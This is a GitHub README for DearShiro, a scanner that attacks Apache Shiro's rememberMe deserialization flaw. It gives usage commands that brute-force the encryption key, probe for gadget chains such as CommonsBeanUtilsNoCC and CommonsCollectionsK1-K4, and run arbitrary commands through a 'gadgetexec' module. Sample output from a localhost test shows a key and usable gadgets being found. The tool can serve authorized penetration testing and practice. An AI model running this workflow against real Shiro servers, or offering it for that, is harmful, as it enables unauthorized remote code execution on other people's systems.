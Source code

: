 # DearShiro

## Start

**A Simple Shiro Scanner**

**Just for practice**

[中文文档](https://github.com/F4ded/DearShiro/blob/master/README_CH.md)

Done:
- Detect the key
- Detect the available gadget
- Use the gadget to execute command


TODO:
- Graphical tool
- Fix some unknowns bug

The built-in gadget:
- CommonsBeanUtilsNoCC
- CommonsCollectionsK1
- CommonsCollectionsK2
- CommonsCollectionsK3
- CommonsCollectionsK4

## Usage

```python
❯ java -jar dearshiro.jar --help

Usage: <main class> [options]
  Options:
  * -m, --module
      module
  * -b, --baseurl
      baseurl
    -k, --key
      key
      Default: kPH+bIxk5D2deZiIxcaaaA==
    -g, --gadget
      gadget
      Default: NoCC
    -c, --command
      command
      Default: open -a Calculator
    --help


java -jar dearshiro.jar -m {module} -b {baseurl} [-k] [-g] [-c]
# key module 扫描key
java -jar dearshiro.jar -m "key" -b {baseurl}
# dadgetfuzz module 扫描可用gadget
java -jar dearshrio.jar -m "gadgetfuzz" -b {baseurl} -k {key}
# gadgetexec module 使用gadget执行任意命令
java -jar dearshiro.jar -m "gadgetexec" -b {baseurl} -k {key} -g {gadget} -c {command}
```

Simple test in localhost：

```
❯ java -jar dearshiro.jar -m "key" -b "http://127.0.0.1:8000/login.jsp"                                                                              
[+] Test key: 0AvVhmFLUs0KTA3Kprsdag==
[-] Response Code: 200
[+] Test key: kPH+bIxk5D2deZiIxcaaaA==
[-] Response Code: 200
[*] Found Key: kPH+bIxk5D2deZiIxcaaaA==


❯ java -jar dearshiro.jar -m "gadgetfuzz" -b "http://127.0.0.1:8000/login.jsp" -k "kPH+bIxk5D2deZiIxcaaaA=="    
[main] INFO org.reflections.Reflections - Reflections took 18 ms to scan 1 urls, producing 1 keys and 5 values 
[+] Test Gadget: CCK2
[-] Response Code: 200
[+] Test Gadget: NoCC
[-] Response Code: 200
[*] Found Gadget: NoCC
[+] Test Gadget: JRMPClient
[-] Response Code: 200
[+] Test Gadget: CCK1
[-] Response Code: 200
[*] Found Gadget: CCK1
########Available Gadget##########
NoCC
CCK1
########Available Gadget##########

```

